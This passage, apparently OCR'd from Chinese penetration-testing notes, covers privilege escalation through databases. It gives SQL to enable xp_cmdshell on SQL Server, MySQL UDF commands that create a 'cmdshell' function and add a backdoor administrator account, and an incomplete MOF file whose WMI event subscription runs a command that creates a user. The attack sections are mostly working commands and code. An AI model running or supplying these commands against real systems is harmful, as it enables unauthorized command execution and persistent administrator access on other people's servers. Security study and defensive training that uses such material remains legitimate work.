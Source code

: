 - 数据库支持外连
- 数据库权限为SA权限
- 检测是否开启了xp_cmdshell，如果没有开启sqlmap就会尝试开启

Sqlserver --os-shell主要是利用xp_cmdshell扩展进行命令执行。
使用--sql-shell手动开启：
```plsql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

查看是否为SA
select IS_SRVROLEMEMBER('sysadmin')

查看是否存在xp_cmdshell扩展进程，显示1为存在。
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell';

```
### mysql 提权

1. udf提权

原理：利用了root 高权限，创建带有调用cmd的函数的udf.dll动态链接库，导出 udf.dll 文件后，我们就可以直接在命令框输入 cmd
> 要求: 
> 1.目标系统是Windows(Win2000,XP,Win2003)；
> 2.拥有MYSQL的某个用户账号，此账号必须有对mysql的insert和delete权限以创建和抛弃函数 
> 3.有root账号密码 导出udf: MYSQL 5.1以上版本，必须要把udf.dll文件放到MYSQL安装目录下的lib\plugin文件夹下才能创建自定义函数，可以再mysql里输入select @@basedirshow variables like ‘%plugins%’ 寻找mysql安装路径 提权:
> 使用SQL语句创建功能函数。语法：Create Function 函数名（函数名只能为下面列表中的其中之一）returns string soname ‘导出的DLL路径’；

```basic
create function cmdshell returns string soname ‘udf.dll’
select cmdshell(‘net user arsch arsch /add’);
select cmdshell(‘net localgroup administrators arsch /add’);

drop function cmdshell;
```
该目录默认是不存在的，这就需要我们使用webshell找到MYSQL的安装目录，并在安装目录下创建lib\plugin文件夹，然后将udf.dll文件导出到该目录即可。

2.  mof提权
```basic
#pragma namespace("\\\\.\\root\\subscription")

instance of __EventFilter as $EventFilter
{
EventNamespace = "Root\\Cimv2";
Name  = "filtP2";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
Name = "consPCSV2";
ScriptingEngine = "JScript";
ScriptText =
"var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user waitalone waitalone.cn /add\")";
};

instance of __FilterToConsumerBinding
{
Consumer   = $Consumer;
```